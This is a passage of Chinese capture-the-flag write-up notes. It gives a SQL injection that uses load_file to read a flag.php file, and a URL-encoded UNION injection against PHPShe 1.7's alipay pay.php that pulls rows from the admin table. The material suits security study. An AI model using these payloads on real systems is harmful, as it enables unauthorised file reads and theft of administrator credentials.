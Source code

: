 **其他解：**

直接sql注入load_file

- no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%2020.png)

### ****[RoarCTF 2019]PHPShe****

PHPShe1.7漏洞

SQL和XML

/include/plugin/payment/alipay/pay.php?id=pay%20where%201=1%20union%20select%201,2,((select`3`from(select%201,2,3,4,5,6%20union%20select%20*%20from%20admin)a%20limit%201,1)),4,5,6,7,8,9,10,11,12%23_

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%2021.png)

***altman777***